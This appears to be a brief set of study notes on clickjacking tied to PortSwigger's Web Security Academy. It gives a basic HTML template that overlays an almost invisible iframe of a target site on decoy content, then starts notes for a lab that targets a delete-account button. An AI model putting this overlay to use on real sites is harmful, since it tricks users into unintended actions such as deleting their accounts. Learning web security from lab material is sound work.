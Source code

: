 <span style="color:yellow;font-weight:700;font-size:30px">
Clickjacking (UI redressing)

</span>
https://portswigger.net/web-security/clickjacking

#
"Let me tell *you* something, pendejo. You pull any of your crazy shit with us, you flash a piece out on the lanes, I'll take it away from you, and stick it up your ass and pull the fucking trigger 'til it goes **click**"   

*Jesus Quintana (The Big Lebowski)*

#

**basic clickjacking format:**
```htm
<html>
    <head>
        <style>
            #vulnarble_website {
                position:relative;
                width:128px;
                height:128px;
                opacity:0.00001;
                z-index:2;
                }
            #decoy_website {
                position:absolute;
                width:300px;
                height:400px;
                z-index:1;
                }
        </style>
    </head>
    ...
    <body>
        <div id="decoy_website">
        ...decoy web content here...
        </div>
        <iframe id="vulnarble_website" src="https://vulnerable-website.com">
        </iframe>
    </body>
</html>
```

# ***1. Lab: Basic clickjacking with CSRF token protection***
https://portswigger.net/web-security/clickjacking/lab-basic-csrf-protected

using the page at /my-account, targeting the delete account button (dont test delete your own account - it will break the lab)
